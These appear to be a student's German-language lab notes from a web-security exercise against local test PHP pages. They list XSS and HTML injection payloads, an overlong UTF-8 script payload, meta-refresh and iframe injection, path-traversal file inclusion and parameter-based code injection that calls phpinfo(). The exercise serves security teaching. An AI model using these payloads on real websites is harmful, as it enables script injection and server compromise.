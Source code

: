 ## 6.1.1.1 - 1.php
### Schreibe deinen Namen in Italic
Einfach `<i>Ertugrul</i>` in die Box eingeben!

### Namen in anderer Schriftart anzeigen
```html
<span style="color: red">Ertugrul</span>
```

### Schreibe deinen Namen in weiß
```html
<span style="color: white">Ertugrul</span>
```

### Ändere die Background Color zu blau
```html
<style>body {background-color: blue;}</style>
```

### Füge ein weiteres Feld ein
```html
Ertugrul<br><input />
```


## 6.1.1.2 - 2.php
## Versuche eine Injection
```html
myname"/><script>alert('hey')</script><span class="
```

## 6.1.1.3 - Zurück zu 1.php
### Versuche eine Weiterleitung mittels Meta Tag
```html
<meta http-equiv="refresh" content="0; URL=http://google.de/">
```

### Versuche einen IFrame einzubinden
```html
<iframe src="2.php" height="200" width="300" title="Iframe Example"></iframe>
```

## 6.1.1.4 - 4.php
### Versuche eine Injection
```html
<xmp></xmp><script>alert("Hello world");</script><xmp>
```

## 6.1.1.5 - 5.php
### Versuche einen Overlong UTF-8 Character (2 Bytes statt 1) zu injezieren
```html
http://192.168.178.93/html/4.php?name=%C0%BCscript%C0%BEalert("hi")%C0%BC/script%C0%BE
```

```ad-note
Achtung: Dies klappt mit neuen Browsern nicht!
```

## 6.1.2.1 - 1.php
### Versuche die .config.php Datei zu laden
**Warning**: include(.config): failed to open stream: No such file or directory in **/var/www/html/php/1.php** on line **23**  
  
**Warning**: include(): Failed opening '.config' for inclusion (include_path='.:/usr/share/php') in **/var/www/html/php/1.php** on line **23**

### Lade eine random php Seite
https://learningapps.org/index.php

### Lade die phpinfo.php Datei
`../phpinfo.php`

### Welche siehst du, die lokale oder den remote?
Remote, php läuft auf dem Server

### Wie könnte man hier Code injezieren? (Tipp: Mime Types)

### Was müsste man auf dem Webserver machen, um PHP Code zu injezieren?

## 6.1.2.2 - 2.php
### Wie könnte man hier Code injezieren?
`<option value="../phpinfo">../phpinfo</option>`
- Umgehen des "Schutzes", in dem Man einfach ein ".php" am Ende weglässt (Anders als bei 1.php wo man `../phpinfo.php` schreiben müsste)

## 6.1.2.3 - 3.php
### Einfach nur "phpinfo()" einzugeben würde nicht funktionieren, warum?
- Bei mir hat folgendes funktioniert:
- `http://192.168.178.93/php/3.php?maths=phpinfo%28%29`

### 6.1.2.4 - 4.php
### Wie könnte man die Anwendung angreifen?
`http://192.168.178.93/php/4.php?op_1=phpinfo&op=(&op_2=)`
